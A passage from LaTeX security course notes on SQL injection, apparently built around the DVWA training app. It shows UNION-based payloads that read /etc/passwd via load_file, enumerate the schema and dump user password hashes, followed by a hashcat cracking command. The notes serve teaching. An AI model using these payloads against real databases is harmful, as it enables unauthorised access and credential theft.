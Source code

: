 \documentclass[../notes.tex]{subfiles}
\begin{document}
And we find that this query ends up returning the user 1! And it is easy to see how this can be extended to get the information of every user by extending the query with an \texttt{or}.


What about some more complex queries? For example some databases can load a file with the \texttt{load\_file}. So this would give the \texttt{passwd} file for the database server.


\begin{listing}[H]
\begin{verbatim}
select id, first, last from users where id = '1' union select load_file('/etc/passwd'), 'foo' --'
-- And whatever we want in foo..
\end{verbatim}
\end{listing}


Other ideas include

\begin{listing}[H]
\begin{verbatim}
-- the schema
' union select table\_schema, table\_name from information\_schema.tables --' 

-- users and apasswords
' union select user, password from dvwa.users -- 

\end{verbatim}
\end{listing}




Note that this, on any decent web service, will return a bunch of password hashes.
Fortunately most users suck at picking passwords and so we can use a rainbow table to crack the hashes, i.e. by using hashcat;

\texttt{hashcat <file\_with\_password\_hashes> /var/pentest/wordlists/top\_100\_passwords.txt}


\subsubsection{Passwords}

Passwords are commonly used for user authentication but have several problems:
\begin{itemize}
    \item Users tend to pick easy passwords and share them for many systems
    \item Authentication is not mutual: when a user enters a password they usually don't know if they are sending the password to the right system
\end{itemize}
\end{document}
